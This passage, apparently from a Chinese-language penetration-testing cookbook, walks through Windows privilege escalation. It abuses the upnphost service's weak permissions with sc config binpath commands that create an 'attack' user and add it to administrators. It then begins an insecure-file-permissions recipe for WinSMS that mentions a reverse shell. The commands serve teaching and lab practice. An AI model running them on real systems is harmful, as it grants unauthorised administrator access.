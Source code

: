 1.  `attack`用户已成功创建；然而，它将是一个低级用户。让我们重新编写二进制路径。再次启动和停止 UPnP 活动，并获得管理员权限：

```
    sc config upnphost binpath= "net localgroup administrators        attack/add"
          net stop upnphost
          net start upnphost

    ```

输出将如下截图所示：

![操作步骤...](img/image_09_021.jpg)

1.  让我们检查用户 attack 的用户详细信息，以验证他/她是否已成为管理员用户：![操作步骤...](img/image_09_022.jpg)

## 工作原理...

我们在这里看到的是一个普通用户能够创建一个用户并将该用户也设为管理员。通常只有管理员或系统用户才有权限；漏洞存在于`upnphost`服务中，因为它已经给予了所有用户对服务的访问权限。让我们分析这些命令：

+   `accesschk.exe /accepteula -uwcqv "Authenticated Users" *`：`accesschk.exe`文件是一个检查特定服务访问权限的工具。`/accepteula`命令是为了在我们不得不点击**我同意**继续的许可接受通知时静默地绕过。

+   `sc qc upnphost`：`sc`是一个用于与 NT 服务控制器和服务通信的命令行程序。`qc`命令查询服务的配置信息。

+   `sc config upnphost binpath= "net user attack attack@123 /add"`：`config`命令指定了对服务配置的编辑。在这里，我们将二进制路径设置为创建一个新用户。

+   `sc config upnphost obj= ".\LocalSystem" password= ""`：`obj`命令指定了服务二进制文件执行的类型。

## 还有更多...

正如我们所看到的，还有一个服务是有漏洞的。看看是否也可以通过该服务提升权限是个好主意。

# 配置错误的软件安装/不安全的文件权限

在这个示例中，我们将看到攻击者如何利用配置错误的软件安装并提升应用程序的权限。这是一个经典的例子，安装设置配置时没有考虑用户对应用程序文件和文件夹的权限。

## 准备工作

对于这个示例，我们需要安装一个名为 WinSMS 的应用程序。这可以从[`www.exploit-db.com/exploits/40375/`](https://www.exploit-db.com/exploits/40375/)下载，并且可以安装在运行 XP、Vista、7 或 10 的任何 Windows 机器上。出于演示目的，我们将使用 Windows 7。除此之外，我们还需要我们的 Kali 系统运行以获取反向 shell。

## 如何做到的...

1.  一旦我们安装了应用程序，我们将执行命令提示符并检查文件安装的文件夹的权限。输入以下命令：

```
    cacls "C:\Program Files\WinSMS" 

    ```
